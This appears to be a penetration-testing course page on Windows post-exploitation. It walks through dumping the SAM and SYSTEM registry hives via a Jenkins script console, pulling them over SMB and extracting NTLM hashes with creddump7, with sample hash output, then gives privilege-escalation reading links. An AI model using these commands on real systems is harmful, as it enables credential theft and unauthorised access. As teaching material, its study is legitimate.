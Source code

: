 +++
title = "Windows PE"
weight = 1
+++

## Local Password Hashes
Windows stores local user account password hashes in the Security Accounts Manager or *SAM* registry hive.  
Additionally, there is a key needed to decrypt  the encrypted hashes located in the *System* registry hive.

* Use your Jenkins script console to execute the following two commands
  * `reg.exe save hklm\sam c:\users\richard.f\xampp\sam`
  * `reg.exe save hklm\system c:\users\richard.f\xampp\sys`

![](./hash1.png)

These errors are common when using some type of web based shell to execute operating system commands via a scripting language such as Groovyscript.
The short answer is that the *\\* is being processed by the scripting interpreter as code.
You need to escape these characters by prepending them with an additional *\\* character.

![](./hash2.png)

Now run both commands with the proper character escaping and this will place a copy of the two registry hive 
files inside the xampp SMB share. You can then use smbclient to download to your attacking machine.

![](./hash3.png)

### Extracting hashs with creddump7 
Next we'll use an oldie but a goodie, creddump, to extract the hashes from the SAM!

* Download the *.deb* package.
  *  `wget http://tw.archive.ubuntu.com/ubuntu/pool/universe/c/creddump7/creddump7_0.1+git20190429-1.1_all.deb`
* Install the package
  * `sudo dpkg -i creddump7_0.1+git20190429-1.1_all.deb` 

Now run the following command from inside the directory where you saved **sys** and **sam**.

`/usr/share/creddump7/pwdump.py sys sam > hashes.txt`

##### hashes.txt

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fa4621870bd7787de99541e0699e738c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2620172f5a22c57e5c7a5450e21313b8:::
```
## Privilege escalation via PowerShell
Install *pyfuscation* from github.

`cd /opt`

`git clone https://github.com/CBHue/PyFuscation.git`

### Additional privilege escalation resources

Here are some suplimental resources for you to read through outside of class.

* [Fantastic Markdown cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
* [FuzzySecurity Windows Priv. Esc. Fundimentals](https://fuzzysecurity.com/tutorials/16.html)
* [Windows Priv. Esc. by Joseph Carson](https://delinea.com/blog/windows-privilege-escalation)
